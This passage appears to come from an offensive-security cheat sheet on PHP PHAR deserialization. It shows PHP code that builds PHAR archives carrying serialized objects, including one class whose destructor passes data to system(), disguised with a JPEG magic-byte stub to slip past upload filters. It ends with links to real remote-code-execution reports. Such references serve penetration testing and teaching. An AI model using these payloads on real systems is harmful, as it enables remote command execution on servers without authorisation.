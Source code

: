     // Delete any existing PHAR archive with that name
    @unlink("poc.phar");

    // Create a new archive
    $poc = new Phar("poc.phar");

    // Add all write operations to a buffer, without modifying the archive on disk
    $poc->startBuffering();

    // Set the stub
    $poc->setStub("<?php echo 'Here is the STUB!'; __HALT_COMPILER();");

    /* Add a new file in the archive with "text" as its content*/
    $poc["file"] = "text";
    // Add the dummy object to the metadata. This will be serialized
    $poc->setMetadata($dummy);
    // Stop buffering and write changes to disk
    $poc->stopBuffering();
    ?>
    ```

* Example of a Phar creation with a `JPEG` magic byte header since there is no restriction on the content of stub.
    ```php
    <?php
    class AnyClass {
        public $data = null;
        public function __construct($data) {
            $this->data = $data;
        }
        
        function __destruct() {
            system($this->data);
        }
    }

    // create new Phar
    $phar = new Phar('test.phar');
    $phar->startBuffering();
    $phar->addFromString('test.txt', 'text');
    $phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

    // add object of any class as meta data
    $object = new AnyClass('whoami');
    $phar->setMetadata($object);
    $phar->stopBuffering();
    ```


## Real world examples

* [Vanilla Forums ImportController index file_exists Unserialize Remote Code Execution Vulnerability - Steven Seeley](https://hackerone.com/reports/410237)
* [Vanilla Forums Xenforo password splitHash Unserialize Remote Code Execution Vulnerability - Steven Seeley](https://hackerone.com/reports/410212)
* [Vanilla Forums domGetImages getimagesize Unserialize Remote Code Execution Vulnerability (critical) - Steven Seeley](https://hackerone.com/reports/410882)
* [Vanilla Forums Gdn_Format unserialize() Remote Code Execution Vulnerability - Steven Seeley](https://hackerone.com/reports/407552)
